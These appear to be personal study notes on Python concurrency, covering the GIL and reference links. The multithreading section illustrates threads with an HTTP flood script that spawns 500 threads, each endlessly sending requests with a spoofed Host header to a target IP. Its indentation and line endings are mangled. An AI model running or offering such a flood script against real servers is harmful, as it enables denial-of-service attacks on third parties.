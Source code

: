 # Concurrency

Created: 2018-05-21 13:44:24 +0500

Modified: 2022-05-13 15:19:51 +0500

---

## Global Interpreter Lock (GIL)

GIL is a mutex that protects access to Python objects, preventing multiple threads from executing Python bytecodes at once. This lock is necessary mainly because CPython's memory management is not thread-safe.

This essentially means that a process can run only one thread at a time. When a thread starts running, it acquires GIL and when it waits for I/O, it releases the GIL, so that other threads of that process can run.

Solution -

- Run multiple Python instances

## References

<https://wiki.python.org/moin/GlobalInterpreterLock>

<https://pybay.com/site_media/slides/raymond2017-keynote/index.html>

[Raymond Hettinger, Keynote on Concurrency, PyBay 2017](https://www.youtube.com/watch?v=9zinZmE3Ogk&index=2&list=WL&t=0s)

<https://realpython.com/python-concurrency>

<https://www.toptal.com/python/beginners-guide-to-concurrency-and-parallelism-in-python>

<https://www.tutorialspoint.com/concurrency_in_python/index.htm>

[**Tutorial: Santiago Basulto - Python Concurrency: from beginner to pro**](https://www.youtube.com/watch?v=18B1pznaU1o)

[Back to Basics: Concurrency](https://youtu.be/5pYKAoD3Apk) - C++

## MultiThreading

```python
import threading

import socket

target = '10.0.0.138'

port = 80

fake_ip = '182.21.20.32'

def attack():

while True:

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect((target, port))

s.sendto(("GET /" + target + " HTTP/1.1rn").encode('ascii'), (target, port))

s.sendto(("Host: " + fake_ip + " rnrn").encode('ascii'), (target, port))

s.close()

for i in range(500):

thread = threading.Thread(target=attack)

thread.start()
```

<https://bovage.hashnode.dev/what-exactly-is-multithreading>
